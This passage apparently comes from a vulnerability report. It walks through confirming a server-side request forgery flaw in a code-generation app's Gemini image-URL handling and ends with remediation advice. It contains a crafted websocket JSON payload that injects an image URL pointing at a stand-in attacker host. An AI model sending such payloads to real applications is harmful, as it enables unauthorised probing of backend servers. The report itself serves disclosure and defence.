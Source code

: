 2.  **Craft a malicious image URL:**
    - Construct a URL pointing to your controlled server: `http://attacker.example.com/ssrf-test`.

3.  **Prepare the SSRF payload:**
    - Access the application's frontend and initiate a code generation request.
    - Select a Gemini model in the settings.
    - Find a way to include an image URL in the request. This may involve:
        - Direct URL input if the frontend supports it.
        - Intercepting the frontend request and modifying it to inject a message containing the malicious URL. This can be done using browser developer tools or a proxy. The message should be structured to be processed by `stream_gemini_response` as an `image_url`. For example, the JSON payload to the websocket might need to be modified to include:
          ```json
          {
              "type": "userMessage",
              "content": [
                  {"type": "text", "text": "Generate code for this image:"},
                  {"type": "image_url", "image_url": {"url": "http://attacker.example.com/ssrf-test"}}
              ]
          }
          ```
          (This is an example, the exact format depends on how the frontend structures the messages.)

4.  **Send the request:**
    - Submit the crafted request to the application via the websocket connection.

5.  **Monitor for SSRF:**
    - Check the logs of your controlled server (`attacker.example.com`).
    - Look for a new HTTP request directed to `http://attacker.example.com/ssrf-test`.
    - Verify that the request originates from the application's backend server, not your own client. Look at the source IP address and User-Agent if available in logs.

6.  **Analyze results:**
    - If an HTTP request to your malicious URL is logged on your server, the SSRF vulnerability is confirmed. Record the request details for further analysis.
    - If no request is logged, double-check the setup, URL, request crafting, and application configuration, and retry.

**Expected Result:**
- Successful exploitation will be evident by an HTTP request logged on the attacker's controlled server (`attacker.example.com`), originating from the application's backend server, confirming the SSRF vulnerability through Gemini API image URL processing.

**Remediation:**
- Implement the **Missing Mitigations** described above. Prioritize **Input Validation and Sanitization for URLs** within the `stream_gemini_response` function (or wherever image URLs are processed for Gemini API calls) to prevent SSRF. Restricting input to `data:` URLs is the most secure approach. If external URLs are absolutely needed, implement a strict whitelist and content-type validation.
